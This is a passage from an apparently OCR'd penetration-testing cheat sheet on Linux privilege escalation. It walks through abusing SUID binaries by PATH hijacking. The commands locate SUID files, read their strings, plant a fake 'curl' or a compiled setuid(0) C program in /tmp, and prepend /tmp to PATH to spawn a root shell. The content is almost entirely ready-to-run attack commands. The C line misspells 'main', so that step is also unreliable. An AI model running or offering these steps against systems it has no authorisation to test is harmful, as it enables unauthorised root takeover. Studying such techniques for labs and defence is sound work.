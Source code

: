 Privilege Escalation

```ps1
Find the SUID Binary

find / -perm -u=s -type f 2>/dev/null | xargs ls -l
Output Example: /bin/tools/network-tester
ls -la /bin/tools/network-tester

Test the SUID Binary 

/bin/tools/network-tester
strings /bin/tools/network-tester
Output Example: curl -I 127.0.0.1 

Absue the SUID Binary

echo "/bin/bash" > /tmp/curl
chmod 777 /tmp/curl
echo $PATH
export PATH=/tmp:$PATH
/bin/tools/network-tester
id && whoami
```

Example 3 (Without full bin path)

Privilege Escalation

```ps1
Find the SUID Binary

find / -perm -u=s -type f 2>/dev/null | xargs ls -l
Output Example: /bin/tools/webserver-status
ls -la /bin/tools/webserver-status

Test the SUID Binary 

/bin/tools/webserver-status
strings /bin/tools/webserver-status
Output Example: service apache2 status

Absue the SUID Binary

echo 'int mian() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
gcc /tmp/service.c -o /tmp/service
chmod 777 /tmp/service
export PATH=/tmp:$PATH
echo $PATH
/bin/tools/webserver-status
id && whoami
```

Example 4 (With full bin path)
